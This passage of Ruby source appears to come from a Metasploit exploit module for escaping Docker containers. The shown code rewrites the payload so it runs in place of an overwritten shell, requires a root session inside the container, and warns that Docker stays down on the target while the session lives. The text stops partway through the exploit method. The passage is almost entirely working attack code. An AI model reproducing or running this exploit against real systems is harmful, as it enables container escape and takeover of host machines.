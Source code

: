               true,
              'A directory where you can write files.',
              '/tmp'
            ]
          )
        ])
      end

      def encode_begin(real_payload, reqs)
        super

        return unless target['Type'] == :unix_memory

        reqs['EncapsulationRoutine'] = proc do |_reqs, raw|
          # Replace any instance of the shell we're about to overwrite with the
          # substitution shell.
          pl = raw.gsub(/\b#{datastore['OVERWRITE']}\b/, datastore['SHELL'])
          overwrite_basename = File.basename(datastore['OVERWRITE'])
          shell_basename = File.basename(datastore['SHELL'])
          # Also, substitute shell base names, since some payloads rely on PATH
          # environment variable to call a shell
          pl.gsub!(/\b#{overwrite_basename}\b/, shell_basename)
          # Prepend shebang
          "#!#{datastore['SHELL']}\n#{pl}\n\n"
        end
      end

      def exploit
        unless is_root?
          fail_with(Failure::NoAccess,
                    'The exploit needs a session as root (uid 0) inside the container')
        end
        if target['Type'] == :unix_memory
          print_warning(
            "A ARCH_CMD payload is used. Keep in mind that Docker will be\n"\
            "unavailable on the target as long as the new session is alive. Using a\n"\
            "Meterpreter payload is recommended, since specific code that\n"\
            "daemonizes the process is automatically prepend to the payload\n"\
            "and won\'t block Docker."
          )
        end

        verify_shells
